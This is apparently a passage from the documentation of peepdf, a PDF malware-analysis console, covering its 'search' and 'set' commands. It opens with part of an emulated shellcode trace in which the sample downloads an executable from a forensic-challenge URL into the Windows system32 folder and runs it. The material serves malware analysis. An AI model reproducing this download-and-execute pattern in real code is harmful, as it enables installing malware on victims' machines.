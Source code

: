 ```
     LPTSTR lpBuffer = 0x0012fe7c => 
         none;
     UINT uSize = 32;
) =  19;
HRESULT URLDownloadToFile (
     LPUNKNOWN pCaller = 0x00000000 => 
         none;
     LPCTSTR szURL = 0x004176cb => 
           = "http://blog.honeynet.org.my/forensic_challenge/the_real_malware.exe";
     LPCTSTR szFileName = 0x0012fe7c => 
           = "c:\WINDOWS\system32\a.exe";
     DWORD dwReserved = 0;
     LPBINDSTATUSCALLBACK lpfnCB = 0;
) =  0;
UINT WINAPI WinExec (
     LPCSTR lpCmdLine = 0x0012fe7c => 
           = "c:\WINDOWS\system32\a.exe";
     UINT uCmdShow = 0;
) =  32;
void ExitThread (
     DWORD dwExitCode = 32;
) =  0;

```
[Index](#Console_commands.md)
<br />
### search ###
```
Usage: search [hex] string

Search the specified string or hexadecimal string in the objects (decoded and encrypted streams included)

Example: search hex \x34\x35
```
```
PPDF> search javascript

[4]
```
```
PPDF> search hex \x4a\x61\x76\x61

[4]
```
[Index](#Console_commands.md)
<br />
### set ###
```
Usage: set [var_name var_value]

Sets the specified variable value or creates one with this value. Without parameters all the variables are shown.

Special variables:

	header_file: READ ONLY. Specifies the file header to be used when 'malformed_options' are active.

	malformed_options: READ ONLY. Variable to store the malformed options used to save the file.

	output_limit: variable to specify the maximum number of lines to be shown at once when the output is long. 
```